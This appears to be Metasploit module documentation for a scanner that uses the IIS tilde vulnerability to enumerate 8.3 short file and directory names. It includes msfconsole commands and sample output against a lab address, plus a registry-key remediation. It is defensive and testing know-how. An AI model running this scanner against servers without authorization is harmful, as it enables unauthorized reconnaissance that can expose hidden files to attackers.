 
## Microsoft IIS shortname vulnerability scanner

The vulnerability is caused by a tilde character "~" in a GET or OPTIONS request, which could allow remote attackers to diclose 8.3 filenames (short names). In 2010, Soroush Dalili and Ali Abbasnejad discovered the original bug (GET request) This was publicly disclosed in 2012. In 2014, Soroush Dalili discovered that newer IIS installations are vulnerable with OPTIONS.

## Vulnerable Application

Older Microsoft IIS installations are vulnerable with GET, newer installations with OPTIONS
  
  
## Verification Steps

  1. Install IIS (default installations are vulnerable)
  2. Start msfconsole
  3. Check:
  
  ```
  msf > use auxiliary/scanner/http/iis_shortname_scanner
  msf auxiliary(iis_shortname_scanner) > set 172.16.249.128
  msf auxiliary(iis_shortname_scanner) > check
  [+] 172.16.249.128:80 The target is vulnerable.
  ```

  4. Scan:
  
  ```
  msf auxiliary(iis_shortname_scanner) > run
  [*] Scanning in progress...
  [+] Directories found
  http://172.16.249.128/aspnet~1
  http://172.16.249.128/secret~1
  [+] Files found
  http://172.16.249.128/web~1.con
  http://172.16.249.128/index~1.htm
  http://172.16.249.128/upload~1.asp
  http://172.16.249.128/upload~2.asp
  [*] Auxiliary module execution completed
  ```

## Options

```
  Module options (auxiliary/scanner/http/iis_shortname_scanner):

  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  PATH     /                yes       The base path to start scanning from
  Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOST                     yes       The target address
  RPORT    80               yes       The target port (TCP)
  SSL      false            no        Negotiate SSL/TLS for outgoing connections
  VHOST                     no        HTTP server virtual host
```

## Remediation

Create registry key NtfsDisable8dot3NameCreation at HKLM\SYSTEM\CurrentControlSet\Control\FileSystem, with a value of 1


## References

  * https://soroush.secproject.com/blog/tag/iis-tilde-vulnerability/
  * https://support.detectify.com/customer/portal/articles/1711520-microsoft-iis-tilde-vulnerability
